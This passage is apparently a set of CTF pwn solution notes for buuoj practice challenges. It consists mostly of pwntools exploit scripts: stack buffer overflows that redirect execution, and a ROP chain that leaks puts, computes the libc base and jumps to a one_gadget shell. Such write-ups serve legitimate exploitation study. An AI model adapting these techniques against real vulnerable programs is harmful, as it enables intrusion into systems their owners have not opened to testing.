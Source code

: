  ```python
  r.recvuntil('Input your Plaintext to be encrypted\n')
  r.sendline(payload)
  
  r.interactive()
  ```

  

* ### warmup_csaw_2016

  ```python
  from pwn import *
  r = remote('pwn.buuoj.cn',20035)
  payload = 'a'*0x48 + p64(0x40060d)
  r.sendline(payload)
  r.interactive()
  ```

* ### pwn1_sctf_2016

  ```python
  from pwn import *
  r = remote('pwn.buuoj.cn',20086)
  payload = 'I'*0x14 + p32(0xdeadbeef) + p32(0x08048F0D)
  r.sendline(payload)
  r.interactive()
  ```

* ### ciscn_2019_en_2

  ciscn_2019_c_1

* ### babyheap_0ctf_2017

  略

* ### ciscn_2019_n_1

  wdnmd cat /flag是假的

  ```python
  from pwn import *
  r = remote('pwn.buuoj.cn',20137)
  elf = ELF('./ciscn_2019_n_1')
  libc = ELF('./x64_libc.so.6')
  system = 0x400530
  #flag = 0x4007cc
  p_rdi = 0x400793
  main = 0x4006dc
  one = 0xf1147
  puts_got = elf.got['puts']
  puts_plt = elf.plt['puts']
  puts_libc = libc.symbols['puts']
  #payload = 'a'*0x38 + p64(p_rdi) + p64(flag) + p64(system)
  payload = 'a'*0x38 + p64(p_rdi) + p64(puts_got) + p64(puts_plt) +p64(main)
  r.sendline(payload)
  r.recvuntil('11.28125\n')
  puts = r.recvuntil('\n',drop = True).ljust(8,'\x00')
  puts = u64(puts)
  log.success(hex(puts))
  libc_base = puts - puts_libc
  log,success(hex(libc_base))
  fuck = one + libc_base
  payload = 'a'*0x38 + p64(fuck)
  r.sendline(payload)
  r.interactive()
  ```

